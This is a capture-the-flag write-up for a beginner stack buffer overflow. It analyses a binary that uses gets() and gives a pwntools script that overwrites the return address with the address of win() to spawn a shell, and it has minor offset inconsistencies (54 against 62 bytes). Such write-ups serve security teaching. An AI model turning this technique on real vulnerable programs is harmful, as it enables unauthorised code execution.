# Reconnaissance
## C Review
The first step of course is to take a look into the provided c file. At a glance, the `main` function seems to be secure with the `fgets()` function properly limiting input to avoid overwriting the `sample` buffer. But the bottom of main calls `vuln()` function, which sounds interesting.

`vuln()` has a 50 byte buffer which it writes with `gets`, which means this is our attack vector. We will probably be overflowing the buffer to change the return address and call another function--probably `win` since it spawns a shell!
## Binary Analysis
First, lets check how the ELF runs with the `checksec` command:
>$checksec ./challenge/chall_2

>Arch:     i386-32-little  
>RELRO:    Partial RELRO  
>Stack:    No canary found  
>NX:       NX enabled  
>PIE:      No PIE (0x8048000)

Notably, stack canary and PIE are disabled which should make our job much easier. Especially the lack of PIE, because we should be able to reliably know the address to replace the return address with in order to call `win()`.

Next, lets decompile the executable file we were given with Ghidra to get an idea of what the stack looks like in the `vuln()` function. 
![Ghidra Vuln Function Image](ghidra1.png)  
`local_3e` is the character buffer we get to overflow, and even thought it was defined with a length of 50, in this executable it is 54 bytes. Notice there is also an 8 byte variable `local_8` in the executable, which didn't show up in the c file. We'll need to overflow this too. So, in our input we will want an offset of 62 characters. Now we want to find the address where the `win()` function starts so we can call it.  
![Ghidra Win Function Image](ghidra2.png)  
Highlighted in green is the address of the start of the function, 0x08048526, which is what we will want to write into the return address by overflowing the buffer with 1 byte.  With that out of the way, we should be ready to write our script for the challenge.

# Script
To start testing, we are going to run our script on the ELF we were given for the challenge. We can load it like this:
```{python}
from pwn import *

EXE = ELF("./challenge/chall_2")

context.binary = EXE
context.terminal = ['xterm', '-e']
context.log_level = "DEBUG"

win_address = EXE.symbols['win']
```
Here we are doing a couple of things. We are importing the `pwn` library to use as our primary tool for both working on the local file and the challenge server. Then, we use `pwn`'s `ELF` module to put the executable into a variable `EXE`. Then we set up a few things for `pwn`, most importantly `context.log_level = "DEBUG"` because this will give us verbose information about what we send and recieve with `pwn`. Finally, we use one of `pwn`'s features to find the address of the `win()` function. This should give the same value as what we found in Ghidra.  

Next, we connect to the executable and run our package:
```{python}
r = process([EXE.path])
# Wait for the process to send "Goodbye, Mr. Anderson..." and respond to move onto vuln()
r.recvline()
r.send(b'a\n')

# Create a package with an offset of 54 bytes then the address win(), send it, and open an interactive terminal
package = b'a'*62
package += p32(win_address)+b'\n'
r.send(package)
r.interactive()
```
This spawns a terminal for us to run `ls` then `cat flag.txt`!